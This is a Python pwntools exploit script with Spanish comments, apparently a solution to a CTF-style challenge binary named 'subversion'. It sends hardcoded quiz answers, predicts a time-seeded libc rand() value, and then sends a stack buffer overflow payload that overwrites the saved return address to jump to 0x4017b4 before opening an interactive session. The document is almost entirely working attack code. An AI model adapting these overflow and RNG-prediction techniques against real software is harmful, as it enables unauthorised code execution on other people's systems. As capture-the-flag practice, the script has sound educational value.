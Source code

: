 ```python
from pwn import *
import ctypes
import time

def randonfun():

    libc = ctypes.CDLL('libc.so.6')
    rand = libc.rand
    srand = libc.srand
    current_time = int(time.time()) ^ 69
    srand(current_time)
    random_number = rand() % 10000000
    return random_number



def explotation():

    binary = "./subversion"
    l = process(binary)

    # Interactuamos con el programa enviando las respuestas esperadas


    l.recvuntil(b"Respuesta:")
    l.sendline(b"1789")  # enviamos la primera respuesta


    l.recvuntil(b"Respuesta:")
    l.sendline(b"satyagraha")   # enviamos la segunda respuesta

    l.recvuntil(b"Respuesta:")
    l.sendline(b"caidadelmuro") # se envia la tercera respuesta

    l.recvuntil(b"Respuesta:")
    l.sendline(b"cartamagna")   # 4ta respuesta

    l.recvuntil(b"Respuesta:")
    l.sendline(b"movimientoantiapartheid") # 5ta respuesta


    val = randonfun() # almacenamos en una variable lo que devuelve la funcion que genera el numero aleatorio
    l.recvuntil(b"Respuesta:")
    l.sendline(str(val).encode()) # 6ta respuesta (numero aleatorio) aqui convertimos a string el valor almacenado en la variable val y luego a binario para poder enviarlo correctamente al proceso


    # aqui comienzo a preparar el payload para saltar a la direccion 0x00000000004017b4

    memory = p64(0x00000000004017b4)

    payload = b"A"*64  #sobreescribo el buffer
    payload += b"B"*8  #sobreescribo el RBD
    payload += memory  # sobreescribo el RIP con la direccion de memoria a la cual quiero saltar

    l.recvuntil(b"continuar:") # aqui nos solicita el magico texto para continuar:
    l.sendline(payload) # envio el payload al proceso

    l.interactive() # testeamos

if __name__ == '__main__':
    explotation()
```